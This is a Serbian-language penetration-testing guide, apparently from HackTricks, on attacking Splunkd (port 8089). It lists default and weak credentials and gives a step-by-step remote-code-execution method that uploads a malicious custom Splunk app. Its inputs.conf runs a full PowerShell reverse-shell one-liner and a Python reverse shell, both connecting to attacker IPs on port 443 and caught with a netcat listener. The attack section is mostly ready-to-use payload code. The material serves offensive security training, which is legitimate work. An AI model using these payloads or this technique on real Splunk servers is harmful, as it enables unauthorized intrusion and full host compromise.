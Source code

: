 # 8089 - Pentesting Splunkd

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite videti **oglašavanje vaše kompanije na HackTricks-u** ili **preuzeti HackTricks u PDF formatu** proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## **Osnovne informacije**

Splunk je alat za **analizu logova** koji igra ključnu ulogu u **prikupljanju, analiziranju i vizualizaciji podataka**. Iako mu prvobitna svrha nije bila da služi kao alat za **SIEM (Security Information and Event Management)**, stekao je popularnost u oblasti **sigurnosnog nadzora** i **poslovne analitike**.

Splunk implementacije se često koriste za skladištenje **osetljivih podataka** i mogu predstavljati **vredan izvor informacija** za potencijalne napadače ukoliko uspeju da kompromituju sistem. **Podrazumevani port:** 8089

```
PORT     STATE SERVICE VERSION
8089/tcp open  http    Splunkd httpd
```

{% hint style="info" %}
Splunk veb server podrazumevano radi na portu 8000.
{% endhint %}

## Enumeracija

### Besplatna verzija

Splunk Enterprise probna verzija se pretvara u **besplatnu verziju nakon 60 dana**, koja **ne zahteva autentifikaciju**. Nije neobično da sistem administratori instaliraju probnu verziju Splunka kako bi je testirali, a zatim je **zaborave**. Ovo će se automatski pretvoriti u besplatnu verziju koja nema nikakav oblik autentifikacije, uvodeći sigurnosnu rupu u okruženju. Neke organizacije mogu izabrati besplatnu verziju zbog ograničenja budžeta, ne shvatajući u potpunosti implikacije nemogućnosti upravljanja korisnicima/ulogama.

### Podrazumevani pristupni podaci

Na starijim verzijama Splunka, podrazumevani pristupni podaci su **`admin:changeme`**, koji su prikazani na stranici za prijavu.\
Međutim, **najnovija verzija Splunka** postavlja **pristupne podatke tokom procesa instalacije**. Ako podrazumevani pristupni podaci ne funkcionišu, vredi proveriti uobičajene slabe lozinke poput `admin`, `Welcome`, `Welcome1`, `Password123`, itd.

### Dobijanje informacija

Nakon prijave na Splunk, možemo **pregledati podatke**, pokretati **izveštaje**, kreirati **instrument table**, **instalirati aplikacije** iz Splunkbase biblioteke i instalirati prilagođene aplikacije.\
Takođe možete pokretati kod: Splunk ima više načina za **pokretanje koda**, kao što su Django aplikacije na serverskoj strani, REST endpointi, skriptovani ulazi i skripte za upozorenja. Uobičajeni način dobijanja udaljenog izvršavanja koda na Splunk serveru je kroz upotrebu skriptovanog ulaza.

Osim toga, pošto se Splunk može instalirati na Windows ili Linux hostovima, mogu se kreirati skriptovani ulazi za pokretanje Bash, PowerShell ili Batch skripti.

### Shodan

* `Splunk build`

## RCE

### Kreiranje prilagođene aplikacije

Prilagođena aplikacija može pokretati **Python, Batch, Bash ili PowerShell skripte**.\
Imajte na umu da **Splunk dolazi sa instaliranim Pythonom**, pa čak i na **Windows** sistemima možete pokretati Python kod.

Možete koristiti [**ovaj**](https://github.com/0xjpuff/reverse\_shell\_splunk) Splunk paket da nam pomogne. **`bin`** direktorijum u ovom repozitorijumu ima primere za [Python](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/rev.py) i [PowerShell](https://github.com/0xjpuff/reverse\_shell\_splunk/blob/master/reverse\_shell\_splunk/bin/run.ps1). Hajde da prođemo kroz ovo korak po korak.

Da bismo to postigli, prvo moramo kreirati prilagođenu Splunk aplikaciju koristeći sledeću strukturu direktorijuma:

```shell-session
tree splunk_shell/

splunk_shell/
├── bin
└── default
```

**`bin`** direktorijum će sadržati sve **skripte koje nameravamo da pokrenemo** (u ovom slučaju, **PowerShell** reverse shell), a podrazumevani direktorijum će sadržati naš `inputs.conf` fajl. Naš reverse shell će biti **PowerShell jednolinijski kod:**

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close(
```

Fajl [inputs.conf](https://docs.splunk.com/Documentation/Splunk/latest/Admin/Inputsconf) govori Splunku **koji skript da pokrene** i bilo koje druge uslove. Ovde postavljamo aplikaciju kao omogućenu i kažemo Splunku da pokrene skriptu svakih 10 sekundi. Interval je uvek u sekundama, a ulaz (skripta) će se pokrenuti samo ako je ova postavka prisutna.

```shell-session
cat inputs.conf

[script://./bin/rev.py]
disabled = 0
interval = 10
sourcetype = shell

[script://.\bin\run.bat]
disabled = 0
sourcetype = shell
interval = 10
```

Potrebno nam je `.bat` fajl koji će se pokrenuti prilikom implementacije aplikacije i izvršiti PowerShell jednolinijski kod.

Sledeći korak je odabrati `Install app from file` i otpremiti aplikaciju.

<figure><img src="../.gitbook/assets/image (4) (5) (1).png" alt=""><figcaption></figcaption></figure>

Pre otpremanja zlonamerne prilagođene aplikacije, pokrenimo slušaoca koristeći Netcat ili [socat](https://linux.die.net/man/1/socat).

```shell-session
sudo nc -lnvp 443

listening on [any] 443 ...
```

Na stranici `Uploaduj aplikaciju`, kliknite na `Pretraži`, izaberite tarball koji smo prethodno kreirali i kliknite na `Upload`. Čim **uploadujemo aplikaciju**, primićemo **obrnuti shell** jer će se status aplikacije automatski promeniti u `Omogućeno`.

#### Linux

Ako se bavimo **Linux hostom**, morali bismo **izmeniti Python skriptu `rev.py`** pre nego što kreiramo tarball i uploadujemo prilagođenu zlonamernu aplikaciju. Ostatak procesa bi bio isti, i dobili bismo obrnutu shell konekciju na našem Netcat slušaocu i mogli bismo da nastavimo sa napadom.

```python
import sys,socket,os,pty

ip="10.10.14.15"
port="443"
s=socket.socket()
s.connect((ip,int(port)))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn('/bin/bash')
```

### RCE & Eskalacija privilegija

Na sledećoj stranici možete pronaći objašnjenje kako se ovaj servis može zloupotrebiti radi eskalacije privilegija i postizanja trajnosti:

{% content-ref url="../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md" %}
[splunk-lpe-and-persistence.md](../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md)
{% endcontent-ref %}

## Reference

* [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
